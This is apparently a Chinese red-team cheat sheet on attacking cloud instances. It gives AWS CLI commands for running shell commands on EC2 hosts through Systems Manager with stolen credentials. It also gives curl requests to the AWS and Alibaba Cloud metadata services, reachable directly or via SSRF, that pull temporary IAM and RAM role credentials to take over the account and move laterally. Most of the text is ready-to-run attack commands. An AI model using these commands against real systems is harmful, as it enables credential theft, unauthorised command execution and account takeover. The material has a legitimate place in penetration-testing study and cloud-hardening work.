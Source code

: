 # aws-cli-command
利用 aws cli 执行命令
当目标实例被 AWS Systems Manager 代理后，除了在控制台可以执行命令外，拿到凭证后使用 AWS 命令行也可以在 EC2 上执行命令。

列出目标实例 ID

aws ec2 describe-instances --filters "Name=instance-type,Values=running" --query "Reservations[].Instances[].InstanceId"

aws ec2 describe-instances --query "Reservations[*].Instances[*].{ID:InstanceId,AZ:Placement.AvailabilityZone,Name:State.Name}" 


在对应的实例上执行命令，注意将 instance-ID 改成自己实例的 ID

aws ssm send-command \
    --instance-ids "instance-ID" \
    --document-name "AWS-RunShellScript" \
    --parameters commands=ifconfig \
    --output text
获得执行命令的结果，注意将 $sh-command-id 改成自己的 Command ID

aws ssm list-command-invocations \
    --command-id $sh-command-id \
    --details
  
  
元数据
元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 /iam/security-credentials/<rolename> 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ -w '\n'
获取rolename
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rolename> -w '\n'

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了，这里介绍一些对于 RT 而言价值相对较高的元数据：

mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
    
    
ali
    http://100.100.100.200/latest/meta-data
    http://100.100.100.200/latest/meta-data/ram/security-credentials/ 
  
  来源：https://wiki.teamssix.com/CloudService/EC2/ec2-exec-command.html
